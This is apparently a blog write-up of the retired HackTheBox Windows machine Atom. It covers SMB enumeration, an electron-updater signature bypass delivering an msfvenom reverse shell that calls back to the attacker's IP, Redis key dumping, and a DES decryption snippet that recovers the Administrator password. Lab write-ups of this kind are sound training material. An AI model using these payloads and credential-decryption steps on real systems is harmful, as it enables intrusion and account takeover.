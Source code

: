 ```yaml
---
title: HackTheBox - Atom Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
# Summary for listings and search engines
summary: Here's my writeup for the RETIRED machine Atom , Which is a Medium Windows machine!



# Link this post with a project
projects: []

# Date published
# Date published
date: "2021-07-10T00:00:00Z"

# Date updated
lastmod: "2021-07-10T00:00:00Z"
# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**HackTheBox**]'
  focal_point: ""
  placement: 2
  preview_only: false

authors:
- admin


tags:
- HackTheBox


---
```







# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## <p style="color:Green">Web Enumeration </p> 

<img src="web.png">

It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 

<img src="smb.png">

An interesting share `Software_Updates` let's take a look at it

<img src="foothold.png">

Let's try download everything

```
prompt off
recurse on
mget *
```

<img src="smbfiles.png">
We only have a pdf file!

---

# <p style="color:RED"> Foothold </p>

---

Let's take a look at the pdf file

<img src="electron.png">
<img src="electron1.png">

The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


<img src="foothold.png">

We're on the box now! And we can get the user flag !:D

<img src="user.png">


---

# <p style="color:RED"> PrivEsc </p>

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!

<img src="portable.png">

We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


<img src="redis.png">

We can see that Redis is installed, we can grab the redis password from the config file

<img src="pass.png">

```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```
<img src="rd.png">

Let's list the keys from the db0


<img src="rd1.png">

Let's check their content
<img src="PS.png">


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

<img src="adminpass.png">

```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```



<img src="toor.png">

And we rooted the machine!



## Thanks for reading hope you enjoyed it!



